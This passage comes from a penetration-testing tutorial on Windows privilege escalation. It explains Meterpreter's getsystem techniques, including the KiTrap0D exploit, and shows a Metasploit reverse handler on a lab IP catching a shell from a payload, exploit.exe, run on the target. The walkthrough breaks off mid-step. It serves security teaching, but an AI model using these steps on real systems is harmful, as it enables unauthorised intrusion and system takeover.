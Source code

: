 There is one other thing to note about escalating privileges on a windows device. Meterpreter has an option to "getsystem" meaning it tries to get system privileges. The getsystem command is only going to work in a handful of scenarios. The two main ways it accomplishes this task is via an unpatched machine or you already have administrative privileges. In the scenario I've described we don't have admin privileges and our box is fully patched hence the reason I'm describing a technique of looking for services with weak permissions. A service that allows full control by a regular user is a misconfiguration so there is no "patch" for this scenario where we can get system privileges.

Let's take a closer look at the getsystem command, we can do this by simply issuing the command below inside the meterpreter prompt.

\[bash\]

meterpreter > getsystem -h Usage: getsystem \[options\]

Attempt to elevate your privilege to that of local system.

OPTIONS:

\-h        Help Banner. -t <opt>  The technique to use. (Default to '0'). 0 : All techniques available 1 : Service - Named Pipe Impersonation (In Memory/Admin) 2 : Service - Named Pipe Impersonation (Dropper/Admin) 3 : Service - Token Duplication (In Memory/Admin) 4 : Exploit - KiTrap0D (In Memory/User) \[/bash\]

Options 1-3 all require admin privileges, which we don't have, and option 4 will not work if the system is patched for the kitrap0d exploit. Let's just verify that the "getsystem" command within meterpreter will not work if we don't leverage something like a weak service permission. If you still have your meterpreter prompt go ahead and exit out.

\[bash\]

meterpreter > exit \[\*\] Shutting down Meterpreter...

\[\*\] Meterpreter session 2 closed.  Reason: User exit msf  exploit(handler) > \[/bash\]

Now instead of launching our malicious executable from the OSE service let's execute exploit.exe, that we moved over earlier to our target windows machine, as a regular user. I saved my exploit.exe on the desktop. Before running exploit.exe as a regular user we need to go back to Linux and start our handler.

\[bash\]

msf  exploit(handler) > exploit

\[\*\] Started reverse handler on 192.168.134.135:80 \[\*\] Starting the payload handler... \[/bash\]

Now on our windows target machine let's run our exploit.exe

\[plain\]

c:\\Users\\homer\\Desktop>exploit.exe

c:\\Users\\homer\\Desktop>

\[/plain\]

Once we run exploit.exe on our windows target machine you should get back a meterpreter prompt back.

\[bash\]
